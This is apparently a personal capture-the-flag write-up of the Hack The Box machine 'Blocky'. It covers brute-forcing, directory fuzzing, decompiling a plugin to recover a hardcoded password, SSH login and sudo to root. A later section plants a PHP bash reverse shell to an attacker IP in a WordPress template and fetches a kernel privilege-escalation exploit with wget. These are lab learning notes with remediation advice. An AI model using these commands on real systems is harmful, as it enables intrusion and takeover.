





# Blocky

```
kali@kali:~/htb/Blocky$ sudo nmap -Pn  10.129.1.53
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-25 08:03 EST
Nmap scan report for 10.129.1.53
Host is up (0.028s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE
21/tcp   open   ftp
22/tcp   open   ssh
80/tcp   open   http
8192/tcp closed sophos
```

My default -sV and -sC do not work so I do a quick -Pn to see what we're dealing with. If needed I would return to do some more scanning.

I head to the webpage and I’m greeted by blockycraft! And there is a login page. Which differentiates username and password. So I’m gonna try hydra,


```
hydra 10.129.1.53 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:F=ERROR\: Invalid username. Lost your password?" -L /usr/share/wordlists/usernames.txt -p test -I
```

Hydra can be a bit tough to send correctly, I hope this one is good.

While that is running I check out the other options on the site. I click the first article and see a reply field. This might be a cross-site-scripting opportunity.

So let's try a simple XSS to see if it even works:

<script>alert(‘XSS’)</script>. This should create a popup message if it works. But it does not. The comment is simply posted with the <script>’s removed. I tried it on all fields as well, but to no avail. My hydra command has also slowed down a lot. Hmm. 

I decide to run dirbuster. But I don’t really find anything special.

I then remember that there are blog posts, and they probably include usernames… duh.

So we get a username “Notch”

I try hydra again: 

```
hydra 10.129.1.53 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:F=ERROR\: The password you entered for the username Notch is incorrect. Lost your password?" -l Notch -P /usr/share/wordlists/rockyou.txt -I -V
```

In order to craft a good hydra command, you need to inspect the target login form, and use the values there. "log" was the form name of the username, "pwd" for the password etc.
I also had to escape the `:` in the fail message with a backslash. -l means username. -L means username list. And the same for passwords. -I makes it so hydra does not resume from a previous run, and -V just means verbose.

Also my dirbuster is not working well, it is just running into empty links. So I’m gonna try Wfuzz and only looking for directories.

``` 
kali@kali:~/htb/Blocky$ sudo wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.129.1.53/FUZZ
```

-c outputs with colors

--hc=404 filters out 404 response pages

-w selects what wordlist to use


And Wfuzz finds a directory called plugins. So let's see if we find anything there. Note that my hydra is still running in the BG trying to find a password.



We got something interesting here. Some java files, which is what is used for minecraft mods. Let’s see if we can find some interesting stuff. 

I decompress it with
```kali@kali:~/htb/Blocky$ unzip BlockyCore.jar -d Blockycore
Archive:  BlockyCore.jar
  inflating: Blockycore/META-INF/MANIFEST.MF  
  inflating: Blockycore/com/myfirstplugin/BlockyCore.class  
```
-d specifies a directory to unzip files

So now we can try to decompile it:

```
kali@kali:~/htb/Blocky/Blockycore/com/myfirstplugin$ javap -c  BlockyCore.class
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Compiled from "BlockyCore.java"
public class com.myfirstplugin.BlockyCore {
  public java.lang.String sqlHost;

  public java.lang.String sqlUser;

  public java.lang.String sqlPass;

  public com.myfirstplugin.BlockyCore();
    Code:
       0: aload_0
       1: invokespecial #12                 // Method java/lang/Object."<init>":()V
       4: aload_0
       5: ldc           #14                 // String localhost
       7: putfield      #16                 // Field sqlHost:Ljava/lang/String;
      10: aload_0
      11: ldc           #18                 // String root
      13: putfield      #20                 // Field sqlUser:Ljava/lang/String;
      16: aload_0
      17: ldc           #22                 // String 8YsqfCTnvxAUeduzjNSXe22
      19: putfield      #24                 // Field sqlPass:Ljava/lang/String;
      22: return

  public void onServerStart();
    Code:
       0: return

  public void onServerStop();
    Code:
       0: return

  public void onPlayerJoin();
    Code:
       0: aload_0
       1: ldc           #33                 // String TODO get username
       3: ldc           #35                 // String Welcome to the BlockyCraft!!!!!!!
       5: invokevirtual #37                 // Method sendMessage:(Ljava/lang/String;Ljava/lang/String;)V
       8: return

  public void sendMessage(java.lang.String, java.lang.String);
    Code:
       0: return
}

```

That third string is interesting. `8YsqfCTnvxAUeduzjNSXe22`

I try it with Notch in the login page, but it does not work. However ssh was open in the ports. So lets try that:


```
kali@kali:~/htb/Blocky/Blockycore/com/myfirstplugin$ ssh Notch@10.129.1.53
Notch@10.129.1.53's password: 
Permission denied, please try again.
Notch@10.129.1.53's password: 
Permission denied, please try again.
Notch@10.129.1.53's password: 

kali@kali:~/htb/Blocky/Blockycore/com/myfirstplugin$ ssh notch@10.129.1.53
notch@10.129.1.53's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Thu Sep 24 08:12:11 2020 from 10.10.14.2
/usr/bin/xauth:  file /home/notch/.Xauthority does not exist
notch@Blocky:~$ whoami
notch
notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

Here we can see the importance of always trying both lower and uppercase. And we can see that notch is already a sudo user. So let's try to log in as root:

```
notch@Blocky:~$ sudo su
[sudo] password for notch: 
root@Blocky:/home/notch# whoami
root
root@Blocky:/home/notch# 
```

Great!

Although I am sad that hydra did not work.


## Comparing myself to the official writeup:

The official writeup an nmap with -T4 -A  and it revealed that minecraft was also running on port 25565. 

They ran into the same dirbusting issues I found. With php busting not working well on wordpress sites. They switched to directories only. As I did, although I used wfuzz and they kept using dirbuster.

They decompile the java files with JD-GUI. And found the credentials. And logged on with ssh. Used `sudo -i` to get root.

However they also pointed out a PhPAdmin route after finding the credentials in the java files.

So I decide to try that out at the end of this writeup.

## How to stop this exploit:

Very bad idea to keep plaintext credentials. And an even worse idea to keep it publicly available like this. And an even worse idea than that, to reuse that password as the root password of the machine. This is a cool example of an entirely user based mistake. As the user gave away the password. You could say that ssh could be turned off. But the biggest mistake here is clearly the plaintext public password reuse.


# Secondary foothold:

I navigate to 10.129.1.53/phpmyadmin

And log in with root:8YsqfCTnvxAUeduzjNSXe22 As found in the java files.

And go to the wordpress database:



And click edit:



We just set the user_pass to MD5 and enter our password:



I press Go and login with Notch:DontReusePasswords on 10.129.1.53/wp-login. And I’m greeted with the admin panel:



Now I’m mostly looking for somewhere to upload a php file as a reverse shell.

I go to Appearance->Editor in the wp-admin panel and add

```
<?php
        exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.21/1337 0>&1'");
?>
```

To the top of the header.php template. Set up a listener and enter the page in browser:

```
kali@kali:~$ sudo nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.1.53 41360
bash: cannot set terminal process group (1692): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Blocky:/var/www/html$ whoami
whoami
www-data
www-data@Blocky:/var/www/html$ 
```

I downloaded and compiled this: https://github.com/xairy/kernel-exploits/blob/master/CVE-2017-6074/poc.c 

Compiled with: `kali@kali:~/htb/Blocky$ gcc -o poc poc.c`

I set up a webserver to download it:

```
kali@kali:~/htb/Blocky$ sudo python -m SimpleHTTPServer 8000
Serving HTTP on 0.0.0.0 port 8000 ...

```

And download it on the target:

```
www-data@Blocky:/var/www/html$ wget 10.10.14.21:8000/poc
wget 10.10.14.21:8000/poc
--2021-01-25 12:03:46--  http://10.10.14.21:8000/poc
Connecting to 10.10.14.21:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 23768 (23K) [application/octet-stream]
Saving to: 'poc'

     0K .......... .......... ...                             100%  797K=0.03s

2021-01-25 12:03:46 (797 KB/s) - 'poc' saved [23768/23768]

www-data@Blocky:/var/www/html$ 
```

I followed this up with chmod 777 to get execute permissions, and ran it:

```
www-data@Blocky:/var/www/html$ chmod 777 poc
chmod 777 poc
www-data@Blocky:/var/www/html$ ./poc
./poc
bash: cannot set terminal process group (1692): Inappropriate ioctl for device
bash: no job control in this shell
root@Blocky:/var/www/html# whoami
```

And I did get root, but I think the machine crashed… As nothing responded. And I tried pinging, unreachable… So I tried resetting the box and having another go.

```
www-data@Blocky:/var/www/html$ ./poc
./poc
bash: cannot set terminal process group (1698): Inappropriate ioctl for device
bash: no job control in this shell
root@Blocky:/var/www/html# whoami
whoami
root
```

There we go! Awesome. Two cool ways of doing this box. Some good experience with phpmyadmin and Wordpress, and a new root exploit.

The dccp_rcv_state_process function in net/dccp/input.c mishandles DCCP_PKT_REQUEST packet data structures in the LISTEN state. This allows local users to obtain root privileges by using an application that makes an IPV6_RECVPKTINFO setsockopt system call.

This can be fixed by updating to the latest linux release.
